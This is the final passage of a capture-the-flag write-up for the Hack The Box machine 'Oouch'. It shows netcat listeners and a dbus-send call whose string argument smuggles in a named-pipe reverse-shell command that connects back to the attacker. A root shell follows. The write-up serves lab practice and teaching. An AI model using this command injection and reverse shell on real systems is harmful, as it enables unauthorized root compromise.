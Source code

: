 Now open up another ssh session as qtc and start the listener and we get a connection back in a few seconds.

```bash
qtc@oouch:/tmp$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [172.18.0.1] from (UNKNOWN) [172.18.0.2] 40378
whoami
www-data
```

Now we will go ahead and exploit the `dbus` service.

```bash
www-data@aeb4525789d8:/code$ dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block  htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.xx.xx 1234 >/tmp/.0;"
<| /bin/bash -i 2>&1 | nc 10.10.14.2 1234 >/tmp/.0;"
method return time=1596193829.553087 sender=:1.1 -> destination=:1.335 serial=3 reply_serial=2
   string "Carried out :D"
www-data@aeb4525789d8:/code$
```

Now we wait a few moments for the dbus service to send and we should get a connection on our listener

```bash
➜  ~ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.177] 56788
bash: cannot set terminal process group (2551): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# wc root.txt
wc root.txt
 1  1 33 root.txt
root@oouch:/root# whoami && hostname
whoami && hostname
root
oouch
root@oouch:/root#
```

Thanks so much for reading this hope that you enjoyed!

